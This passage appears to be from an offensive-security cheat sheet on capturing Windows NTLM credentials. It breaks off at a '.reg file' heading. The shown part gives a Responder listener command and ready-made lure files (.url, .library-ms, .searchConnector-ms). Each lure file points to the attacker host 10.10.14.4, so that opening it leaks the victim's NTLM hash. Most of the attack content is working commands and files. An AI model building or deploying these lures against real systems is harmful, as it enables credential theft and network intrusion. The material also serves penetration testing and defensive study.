 
```
[InternetShortcut]
URL=\\10.10.14.4\malicious-page.html
IconFile=\\10.10.14.4\tools\icon.ico
```
## 🐈‍⬛ .library-ms file 🐈‍⬛

A Library file in Windows is used to group various folders together in one view. A malicious .library-ms file can redirect file operations or trigger scripts, although this method is less commonly exploited.

## ⭐ Attacker


```
sudo responder -w -I tun0
```
## 🌙 Victim Name of file: NTLMHarvester.library-ms


```
<?xml version="1.0" encoding="utf-8" standalone="yes"?>
<Library>
  <DisplayName>NTLM Harvester</DisplayName>
  <LocationType>0</LocationType>
  <PathList>
    <Path>\\10.10.14.4\tools\</Path>
  </PathList>
</Library>
```
## 🐈‍⬛ .searchConnector-ms file 🐈‍⬛

A Search Connector file is used to define a search provider in Windows. It can be manipulated to create a malicious connection that performs unwanted searches or downloads.

## ⭐ Attacker


```
sudo responder -w -I tun0
```
## 🌙 Victim Name of file: NTLMHarvester.searchConnector-ms


```
<?xml version="1.0" encoding="utf-8"?>
<SearchConnector>
  <Name>NTLM Harvester</Name>
  <SearchUrl>\\10.10.14.4\malicious-search</SearchUrl>
  <Icon>\\10.10.14.4\tools\search-icon.ico</Icon>
</SearchConnector>
```
## 🐈‍⬛ .reg file 🐈‍⬛
